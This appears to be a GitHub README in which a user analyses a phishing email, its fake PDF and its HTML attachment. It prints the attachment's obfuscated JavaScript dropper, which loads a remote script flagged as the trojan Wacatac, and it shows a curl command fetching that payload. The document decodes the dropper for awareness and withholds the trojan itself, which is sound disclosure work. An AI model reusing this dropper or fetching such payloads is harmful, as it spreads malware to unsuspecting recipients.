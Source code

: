 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.
I did a "curl -v https://fictional-dmk.vercel.app > virus.out", and seconds later MS Defender popped up
and told me about a severe security issue, and quarantined the file.

I could restore it and save it here in the repository but I will not - it might make it too easy to set up the
same trap for some. Sure, they do not know what payload will be delivered which makes it less attractive, but
I guess some might try just out of curiosity so I do not publish the downloaded code here.

## Analysis

### pdf
Here is the content of the .pdf attachment:

7847834783478347834783478GHSD347R8YUFDJHKFDFGKSJDGFSK786YDFUSGKFSDFSD

I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "dGtlbXBAdC1vbmxpbmUuZGU="; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml

